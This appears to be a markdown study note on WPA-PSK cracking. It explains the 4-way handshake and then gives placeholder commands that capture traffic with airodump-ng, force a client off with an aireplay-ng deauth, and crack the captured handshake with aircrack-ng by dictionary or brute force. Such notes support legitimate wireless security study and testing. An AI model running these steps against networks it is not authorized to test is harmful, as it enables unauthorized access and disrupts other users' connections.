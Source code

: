 1. The AP sends the STA a message containing a nonce, a secure cryptographic random number. In the WPA specification, this number is called ANonce (as Authenticator Nonce)
```
AP > sends ANonce > STA
```

2. STA generates another nonce, called SNonce (Supplicant Nonce), and builds the PTK concatenating the PMK, both nonces, the MAC addresses of AP and STA and processing this product through a cyptographic hash function called PBKDF2-SHA1
```
STA builds the PTK
```

3. STA then sends its SNonce to the AP that can now build the PTK. As it uses the same information, both PTKs will be the same without the original PSK ever being transmitted over the air. This third message also contains a MIC (Message Integrity Code) which is used to authenticate the sending STA.
```
SNonce + MIC > AP builds the PTK
```

4. The AP replies back with a message containing the GTK (Group Temporal Key) used to decrypt multicast and broadcast traffic. This message is also authenticated by means of MIC. An acknowledgment concludes the process.
```
AP > replies GTK + MIC
STA > sends ack to conclude the process > AP
```


#### Capture the Handshake
Launch airodump and start sniffing on the correct channel:
```
airodump-ng -w <outfile> -c <channel> <interface>
```

> ps: If we wanted to perform a totally passive attack, we could have waited For a new client to join the network but this could require a lot of time.

Write down the client MAC address and launch the deauth attack against it:
```
aireplay-ng -0 1 -a <BSSID> -c <client_mac> <interface>
```

> If the victim STA is inside the reachable area of your wireless card, it will be forced to rejoin the network and you should be able to get a new 4-way handshake
After getting the handshake its time to crack it.


### Using Aircrack against the Handshake
- Dictionary attack (also available For WEP)
- Pure brute force attack

Launch aircrack-ng:
```
aircrack-ng -w <wordlist> <.cap file>
```

> the cap file is the captured handshake of the previous step.
